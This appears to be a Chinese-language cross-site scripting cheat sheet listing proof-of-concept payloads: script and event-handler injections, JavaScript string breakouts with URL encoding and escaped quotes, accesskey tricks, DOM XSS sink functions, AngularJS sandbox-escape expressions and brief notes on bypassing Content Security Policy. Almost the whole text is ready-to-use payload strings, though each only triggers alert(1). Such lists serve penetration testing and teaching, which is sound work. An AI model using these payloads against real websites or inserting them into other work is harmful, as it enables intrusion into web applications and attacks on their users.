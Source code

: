 ## 基本POC:
- "><script>alert(1)</script>
- <img src=1 onerror=alert(1)>
- " autofocus onfocus=alert(1) x="
- <a href="javascript:alert(1)">
- "><svg onload=alert(1)>
- <span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>
## js方法POC：
&apos;	单引号	作用：跳出前一个js
- &apos;-alert(1)-&apos;  
原型
- %27%2dalert(1)%2d%27  
url编码
- ';alert(1)//
- \\';alert(1)//  
当单引号被转义时
- ${alert(1)}  
有引号处理文字时	如：var input='payload';
- https://url/?%27accesskey=%27x%27onclick=%27alert(1)  
设置快捷件触发,accesskey:指定快捷键属性 `<a href="url" accesskey="c">CSS</a>`
ctrl+shift+c触发
- document.forms[0].submit()  
提交当前页面的第一个表单
## DOM XSS出现位置函数
`document.write、location.search、eval（）、location、someDOMElement.innerHTML/uterHTML/insertAdjacentHTML/onevent`
## 沙箱逃逸
- toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
- <input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
- {{$on.constructor('alert(1)')()}}
## 绕过CSP
- 悬空标记注入，指定url地址后面用？跟参数
- 修改响应包中CSP指令，覆盖现有规则script-src等
